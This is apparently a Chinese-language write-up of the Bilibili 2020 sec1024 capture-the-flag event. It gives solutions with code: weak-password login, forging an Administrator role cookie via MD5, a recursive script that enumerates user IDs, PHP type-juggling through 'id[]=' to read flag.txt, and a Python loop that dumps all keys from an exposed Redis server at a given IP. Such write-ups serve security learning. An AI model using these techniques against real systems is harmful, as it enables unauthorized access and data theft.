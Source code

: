 # 2020-bilibili-sec1024

> 本记录由 TePuint Club 赞助完成

> 注意：如果你没有达到70分请不要往下查看

活动地址：[sec1024](https://security.bilibili.com/sec1024/)

## 第一题 - 页面的背后是什么？

打开DevTool审查元素，在`<input>`中找到data

## 第二题 - 真正的秘密只有特殊的设备才能看到

修改浏览器的User-Agent为 `bilibili Security Browser`，然后刷新网页，就可以看到flag了。

## 第三题 - 密码是啥？

就是弱口令，完全靠猜，用户名 `admin` ，密码 `bilibili` 。

或者直接在Console中输入：

```javascript
$.ajax({
    url: "api/ctf/3",
    type: "post",
    contentType: "application/json",
    dataType: "json",
    data: JSON.stringify({
        username: "admin",
        passwd: "bilibili",
    }),
    success: function (data) {
        console.log(data.data)
    }
})
```

## 第四题 - 对不起，权限不足～

cookies中 `role` 对应的值为user的MD5，所以将这个值改为 `Administrator` 的MD5，即 `7b7bc2512ee1fedcd76bdc68926d4f7b` ，然后刷新网页，就可以看到flag了。

## 第五题 - 别人的秘密

使用Console向后穷举，我也不知道那个uid哪里来的。

在Console中输入：

```javascript
get(100336889) //这里每个人有可能不一样，请在网页中查找
function get(uid) {
    $.ajax({
        url: "api/ctf/5?uid=" + uid,
        type: "get",
        success: function (data) {
            if (data.code == 200) {
                console.log(data.data)
            } else {
                get(uid + 1)
            }
        }
    })
}
```

## 第十题 - 结束亦是开始

你没看错，这里是第十题，但这一题的入口在第六题，也就是第六题做完是第十题的答案。

>注意：每个人的靶机不一定相同，请注意更换IP

1. 访问 `http://120.92.151.189/blog/test.php` （扫目录扫出来的）
2. 将网页中所有的内容复制粘贴到Console中，获取str1和str2
```javascript
 var str1 = "\u7a0b\u5e8f\u5458\u6700\u591a\u7684\u5730\u65b9";
 var str2 = "bilibili1024havefun";
 console.log()
```
3. 将str1进行Unicode转中文得到 `程序员最多的地方` 即 GitHub
4. 在GitHub搜索str2,即"bilibili1024havefun"
5. 在搜索结果中找到与end有关的那个 [传送门](https://github.com/interesting-1024/end/blob/main/end.php)
6. 分析PHP文件,id为不含1的数组，路径不清楚要猜
```php
 <?php

    //filename end.php

    $bilibili = "bilibili1024havefun";

    $str = intval($_GET['id']);
    $reg = preg_match('/\d/is', $_GET['id']);

    if (!is_numeric($_GET['id']) and $reg !== 1 and $str === 1) {
        $content = file_get_contents($_GET['url']);

        //文件路径猜解
        if (false) {
            echo "还差一点点啦～";
        } else {
            echo $flag;
        }
    } else {
        echo "你想要的不在这儿～";
    }
    ?>
```
7. 构造URL，使满足 `!is_numeric($_GET['id']) and $reg !== 1 and $str === 1`
8. 猜URL，访问 `http://120.92.151.189/blog/end.php?id[]=&url=./flag.txt` 得到一张图片
9. 图片另存为，并用npp或者记事本打开,就可以在文件末尾找到flag

## 第八题

在做本题时可能会遇到redis连接不上的问题，我们使用Python脚本进行轰炸

首先安装redis库：`!pip3 install redis`

接着执行以下Python脚本：

```python
import redis

serve = '45.113.201.36' #设置服务器IP地址

print('Connecting the Server ('+serve+') ...')
while True:
    try:
        r = redis.StrictRedis(host=serve, port=6379)
        keys = r.keys()
        print('We got the flag:')
        for key in keys:
            value = r.get(key)
            print(key, value)
        break
    except:
        print('Error: Connection timed out')
        pass
```